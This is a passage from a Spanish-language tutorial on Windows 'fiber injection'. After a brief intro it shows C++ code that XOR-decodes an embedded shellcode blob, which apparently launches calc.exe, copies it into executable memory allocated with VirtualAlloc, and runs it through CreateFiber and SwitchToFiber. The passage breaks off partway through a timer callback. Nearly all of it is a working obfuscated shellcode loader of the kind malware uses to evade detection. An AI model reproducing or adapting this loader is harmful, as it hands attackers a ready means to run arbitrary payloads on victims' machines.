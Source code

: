 Llamando a las funciones en ese orden podriamos hacer una fiber injection clasica, pero al fin de cuenta esto es programacion, y cada quien la puede implementar como le sale de su cabecita, o dependiendo del contexto donde se vaya a ejecutar, ahora te voy a explicar como la implemente, primero de pondre todo el codigo y te explicare que es lo que hace

#### Codigo completo
Fue escrito y compilado desde Dev C++

```cpp
#include <windows.h>
#include <winuser.h>

void fiber_injection(){
	unsigned char shellcode[] = {
	    "\x86\x32\xf9\x9e\x8a\x92\xba\x7a\x7a\x7a\x3b\x2b\x3b\x2a"
	    "\x28\x2b\x2c\x32\x4b\xa8\x1f\x32\xf1\x28\x1a\x32\xf1\x28"
	    "\x62\x32\xf1\x28\x5a\x32\xf1\x08\x2a\x32\x75\xcd\x30\x30"
	    "\x37\x4b\xb3\x32\x4b\xba\xd6\x46\x1b\x06\x78\x56\x5a\x3b"
	    "\xbb\xb3\x77\x3b\x7b\xbb\x98\x97\x28\x3b\x2b\x32\xf1\x28"
	    "\x5a\xf1\x38\x46\x32\x7b\xaa\xf1\xfa\xf2\x7a\x7a\x7a\x32"
	    "\xff\xba\x0e\x1d\x32\x7b\xaa\x2a\xf1\x32\x62\x3e\xf1\x3a"
	    "\x5a\x33\x7b\xaa\x99\x2c\x32\x85\xb3\x3b\xf1\x4e\xf2\x32"
	    "\x7b\xac\x37\x4b\xb3\x32\x4b\xba\xd6\x3b\xbb\xb3\x77\x3b"
	    "\x7b\xbb\x42\x9a\x0f\x8b\x36\x79\x36\x5e\x72\x3f\x43\xab"
	    "\x0f\xa2\x22\x3e\xf1\x3a\x5e\x33\x7b\xaa\x1c\x3b\xf1\x76"
	    "\x32\x3e\xf1\x3a\x66\x33\x7b\xaa\x3b\xf1\x7e\xf2\x32\x7b"
	    "\xaa\x3b\x22\x3b\x22\x24\x23\x20\x3b\x22\x3b\x23\x3b\x20"
	    "\x32\xf9\x96\x5a\x3b\x28\x85\x9a\x22\x3b\x23\x20\x32\xf1"
	    "\x68\x93\x2d\x85\x85\x85\x27\x32\xc0\x7b\x7a\x7a\x7a\x7a"
	    "\x7a\x7a\x7a\x32\xf7\xf7\x7b\x7b\x7a\x7a\x3b\xc0\x4b\xf1"
	    "\x15\xfd\x85\xaf\xc1\x8a\xcf\xd8\x2c\x3b\xc0\xdc\xef\xc7"
	    "\xe7\x85\xaf\x32\xf9\xbe\x52\x46\x7c\x06\x70\xfa\x81\x9a"
	    "\x0f\x7f\xc1\x3d\x69\x08\x15\x10\x7a\x23\x3b\xf3\xa0\x85"
	    "\xaf\x19\x1b\x16\x19\x54\x1f\x02\x1f\x7a"
	};

	for (int i = 0; i < sizeof(shellcode); i++){
		shellcode[i] = (byte)(shellcode[i] ^ (byte)'z');
	}

  	unsigned int shellcode_len = sizeof(shellcode);

	LPVOID exec_mem;
	LPVOID shellcode_fiber; 

	exec_mem = VirtualAlloc(
	    NULL,
	    shellcode_len,
	    MEM_COMMIT,
	    PAGE_EXECUTE_READWRITE
	);

	memcpy(exec_mem, shellcode, shellcode_len);
	shellcode_fiber = CreateFiber(0, (LPFIBER_START_ROUTINE)exec_mem, NULL);

  	SwitchToFiber(shellcode_fiber);

  	DeleteFiber(shellcode_fiber);
  	VirtualFree(exec_mem, 0, MEM_RELEASE);
}

VOID CALLBACK shellcode_routine(PVOID param){
	UINT_PTR timerId = SetTimer(NULL, 0, 20000, [](HWND hwnd, UINT uMsg, UINT_PTR idEvent, DWORD dwTime) {
```